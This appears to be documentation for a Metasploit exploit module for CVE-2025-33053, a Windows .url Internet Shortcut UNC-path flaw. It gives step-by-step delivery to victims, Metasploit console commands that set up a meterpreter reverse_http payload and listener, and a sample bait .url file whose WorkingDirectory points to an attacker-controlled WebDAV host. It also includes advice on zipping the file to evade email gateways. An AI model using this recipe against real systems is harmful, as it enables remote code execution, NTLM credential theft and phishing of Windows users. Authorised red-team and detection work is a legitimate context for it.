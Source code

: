 ## Vulnerable Application

CVE-2025-33053 - Internet Shortcut (.url) UNC Path Exploit

Windows improperly handles `.url` (Internet Shortcut) files referencing remote
UNC paths.
Specifically, `.url` files that specify a remote working directory
(`WorkingDirectory=\\attacker\webdav`) and a trusted executable (e.g.,
`iediagcmd.exe`)
may cause the system to access the attacker's server when opened.

This behavior can be exploited to:

- Trigger NTLM authentication leaks (SMB relay)
- Load remote payloads via WebDAV shares
- Attempt DLL sideloading if conditions allow

## Affected Versions

- Windows 10 22H2
- Windows 11 23H2
- Fully patched prior to June 2025 Patch Tuesday

## Verification Steps

1. Let the module setup WebDAV or do it manually
2. Use the module to generate a `.url` file
3. Deliver the `.url` to the target (email, USB, zip)
4. On victim machine, open `.url`
5. Observe connection back to WebDAV server

## Overview

This module generates a malicious `.url` Internet Shortcut file that abuses
CVE-2025-33053 —
a vulnerability in how Windows handles `.url` files referencing remote UNC
paths.

When opened on a vulnerable system, the `.url` causes the system to connect to a
UNC path
(e.g., a WebDAV share), triggering an attempt to execute a trusted binary
from the attacker's location. This can result in RCE or credential leaks.

It supports:

- Auto-generating a reverse shell payload
- Hosting the payload in a WebDAV share
- Launching a Metasploit handler

## Module Information

**Module Name**: exploits/windows/fileformat/cve_2025_33053
**Authors**:

- Dev Bui Hieu

**Disclosure Date**: 2025-06-11
**License**: MSF_LICENSE
**Rank**: Normal

## Options

### GEN_PAYLOAD

Whether to generate payload and move to WebDAV directory (default: true)

### START_LISTENER

Whether to auto-start a Metasploit multi/handler (default: true)

### WEBDAV_DIR

WebDAV folder for payload and .url (default: /var/www/webdav)

### OUTFILE

Output .url filename (default: bait.url)

### LOLBAS_EXE

Path to a trusted executable to launch (default: iediagcmd.exe)

### ICON_PATH

Icon used for the shortcut (default: msedge.exe)

### ICON_INDEX

Index of the icon in the icon file (default: 13)

### MODIFIED_HEX

Modified timestamp value for the .url file (default: 20F06BA06D07BD014D)

## Scenarios

You can use this module in:

- Phishing simulations
- Red team operations
- Awareness training
- DLL sideloading test
- Drive-by UNC path abuse

## Example Usage

```console
use exploits/windows/fileformat/cve_2025_33053
set LHOST 192.168.1.10
run
```console

Optional:

```console
set WEBDAV_DIR /var/www/webdav
set OUTFILE clickme.url
set PAYLOAD windows/x64/meterpreter/reverse_http
set START_LISTENER true
run
```console

## Output

Example .url file:

```console
[InternetShortcut]
URL=C:\Program Files\Internet Explorer\iediagcmd.exe
WorkingDirectory=\\192.168.1.10\webdav\
ShowCommand=7
IconIndex=13
IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Modified=20F06BA06D07BD014D
```console

## References

- [GitHub PoC](https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept)
- [NVD Entry](https://nvd.nist.gov/vuln/detail/CVE-2025-33053)
- [LOLBAS Project](https://lolbas-project.github.io)
- [Microsoft Advisory](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2025-33053)

## Notes

- Payload hosted via WebDAV must be reachable from the victim
- On patched systems, SmartScreen or Defender may block the connection
- Zip `.url` to evade email gateway protections
- Listener starts automatically if `START_LISTENER` is true
